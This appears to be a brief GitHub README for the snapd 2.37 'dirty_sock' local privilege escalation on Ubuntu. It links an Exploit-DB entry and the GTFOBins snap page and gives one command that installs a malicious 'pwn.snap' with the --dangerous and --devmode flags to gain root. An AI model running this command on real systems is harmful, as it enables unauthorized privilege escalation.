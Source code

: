 # snapd-2.37-Ubuntu---dirty_sock-Local-Privilege-Escalation-2-

https://www.exploit-db.com/exploits/46362

https://gtfobins.github.io/gtfobins/snap/

```
sudo snap install pwn.snap --dangerous --devmode
```

